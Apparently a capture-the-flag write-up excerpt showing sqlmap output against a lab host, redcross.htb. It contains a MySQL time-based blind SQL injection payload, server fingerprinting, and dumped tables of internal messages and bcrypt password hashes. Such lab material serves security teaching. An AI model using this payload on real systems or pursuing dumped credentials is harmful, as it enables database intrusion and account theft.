 ```
                                                              
    Type: AND/OR time-based blind                         
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)      
    Payload: o=9') AND (SELECT * FROM (SELECT(SLEEP(5)))Uqaj)-- eNaD&page=app
---                                                             
[17:43:34] [INFO] the back-end DBMS is MySQL        
web server operating system: Linux Debian 9.0 (stretch)                     
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0                                             
...[snip]...                
Database: redcross                                      
Table: messages
[8 entries]
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| id | body                                                                                                                                                                                         | dest | origin | subject                                      |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| 1  | You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.              | 5    | 1      | Guest Account Info                           |
| 2  | Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.                                                                                    | 2    | 4      | Problems with order 02122128                 |
| 3  | Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?                                                   | 3    | 1      | Strange behavior                             |
| 4  | Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.                                                                                                       | 4    | 2      | Problems with order 02122128                 |
| 5  | Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!                                           | 2    | 3      | admin subd webapp problems                   |
| 6  | Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR                                                      | 3    | 2      | admin subd webapp problems (priority)        |
| 7  | Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...                                                                              | 1    | 2      | STOP checking messages from intra (priority) |
| 8  | Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what could happen? Don't worry but fix it ASAP. | 2    | 1      | STOP checking messages from intra (priority) |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
...[snip]...                           
Database: redcross                                                 
Table: users                   
[5 entries]                    
+----+------+------------------------------+----------+--------------------------------------------------------------+
| id | role | mail                         | username | password                                                     |
+----+------+------------------------------+----------+--------------------------------------------------------------+
| 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |             
| 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
```